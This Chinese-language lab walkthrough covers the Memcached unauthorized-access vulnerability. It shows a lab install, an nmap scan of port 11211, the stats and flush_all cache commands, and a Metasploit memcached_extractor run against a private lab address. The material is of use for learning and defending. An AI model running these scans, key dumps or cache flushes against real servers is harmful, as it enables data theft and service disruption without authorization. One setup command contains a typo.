




# Memcached未授权访问漏洞

## 漏洞描述

Memcached是一个高速缓存系统，用于存储网络上的大量动态数据。未授权访问漏洞指的是，在没有对Memcached的访问控制的情况下，任意人可以在未经授权的情况下访问和读取存储在Memcached中的数据。这可能导致敏感信息泄露，包括用户密码、信用卡信息等。

## 环境搭建

```
wget http://memcached.org/files/old/memcached-1.4.14.tar.gz
tar -zxvf memcached-1.4.14.tar.gz
cd memcached-1.4.14.tar.gz
./configure && make && make test && sudo make install
```

启动Memcached



## 漏洞利用

扫描端口

```
[root@localhost bin]# nmap -p 11211 -sV 192.168.32.183

Starting Nmap 6.40 ( http://nmap.org ) at 2022-07-26 06:35 EDT
Nmap scan report for 192.168.32.183
Host is up (0.000052s latency).
PORT      STATE SERVICE   VERSION
11211/tcp open  memcached Memcached 1.4.14

Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.32 seconds

```

缓存管理命令：

`stats` 命令的功能正如其名：转储所连接的 memcached 实例的当前统计数据。在下例中，执行 stats 命令显示了关于当前 memcached 实例的信息



以上信息显示了当前的流量统计。它服务于连接数量、数据存储到缓存中、缓存命中率以及有关内存使用情况的详细信息以及通过用于存储单个项目的平板分配信息的分布。

`flush_all` 命令。这个最简单的命令仅用于清理缓存中的所有名称/值对。如果您需要将缓存重置到干净的状态。



统计slabs信息



使用msf找到key

```
msf6 > search memcached_extractor

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  auxiliary/gather/memcached_extractor                   normal  No     Memcached Extractor


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/gather/memcached_extractor

msf6 > use auxiliary/gather/memcached_extractor
msf6 auxiliary(gather/memcached_extractor) > show options

Module options (auxiliary/gather/memcached_extractor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    11211            yes       The target port (TCP)
   THREADS  1                yes       The number of concurrent threads (max one per host)

msf6 auxiliary(gather/memcached_extractor) > set rhosts 192.168.32.183
rhosts => 192.168.32.183
msf6 auxiliary(gather/memcached_extractor) > run

[+] 192.168.32.183:11211  - Found 0 keys
[*] 192.168.32.183:11211  - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

